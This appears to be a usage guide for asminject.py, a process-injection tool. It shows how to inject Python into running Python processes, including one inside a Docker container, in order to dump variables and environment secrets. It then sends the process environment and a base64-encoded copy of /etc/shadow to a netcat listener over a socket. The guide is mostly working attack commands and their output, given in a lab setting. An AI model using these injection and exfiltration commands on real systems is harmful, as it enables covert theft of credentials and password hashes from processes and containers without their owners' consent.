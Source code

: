 # asminject.py examples - Python
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Interact with a container only via injected Python code](#interact-with-a-container-only-via-injected-python-code)

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

Some Linux distributions include builds of Python that place most of its functionality in a separate `libpython` shared library. For that type of environment, you'll need to use the `execute_python_code-libpython.s` payload instead of `execute_python_code.s`.

## Write all global or local variables to standard out

Use [the following Python code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```

e.g.

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

or

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
```
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
```

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

```
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  0.0  0.1  10148  7268 pts/0    S+   14:30   0:00 python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p 00000000 08:01 624517                     /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p 00000000 08:01 626234                     /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
```

Copy any necessary binaries out of the container and generate offsets from them. For example:

```
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
```

In this case, the container is using a version of Python 3 that places most of its functions in `/usr/lib64/libpython3.10.so.1.0` instead of `/usr/bin/python3.10`, so you'll need to inject into it using the `execute_python_code-libpython.s` payload, e.g.:

```
# python3 ./asminject.py 2378331 execute_python_code-libpython.s --arch x86-64 --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt --stop-method "slow" --var pythoncode 'import os; print(os.environ);'
```

This should generate output in the terminal where the container was launched, e.g.:

```
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
```

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

```
% nc -nvlkp 7777
listening on [any] 7777 ...
```

Then, in another terminal:

```
# python3 ./asminject.py 2378331 execute_python_code-libpython.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import os; import socket; s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
```

You should see the output in the `nc` listener, e.g.:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
```

Copy a file out of the container:

```
# python3 ./asminject.py 2378331 execute_python_code-libpython.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
```

The base64-encoded version should appear in the netcat listener:

```
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
```